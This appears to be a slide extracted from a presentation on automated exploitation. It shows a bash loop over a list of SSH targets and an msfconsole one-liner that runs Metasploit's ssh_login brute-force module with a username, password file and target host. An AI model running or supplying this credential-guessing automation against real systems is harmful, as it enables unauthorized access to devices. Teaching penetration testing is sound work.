

# Auto exploitation

vulnerabilities=$(awk 'BEGIN { FS=" " } { print $2 }' data/ssh.txt)
for vulner in $vulnerabilities
do
#Run Command ssh_login.sh
Command $vulner
done

Exploit script (like ssh_login.sh) is needed to set options for each possible exploit
USERNAME=pi
VERBOSE=true
EXPLOIT_NAME='auxiliary/scanner/ssh/ssh_login'
msfconsole -q -x "use auxiliary/scanner/ssh/ssh_login; set RHOSTS $TARGET_IP_ADDRESS; set RPORT $TARGET_PORT_NUM; set USERNAME $USERNAME; set PASS_FILE $PASS_FILE; set THREADS $THEADS; set VERBOSE $VERBOSE; set STOP_ON_SUCCESS $STOP_ON_SUCCESS; exploit;“

t
35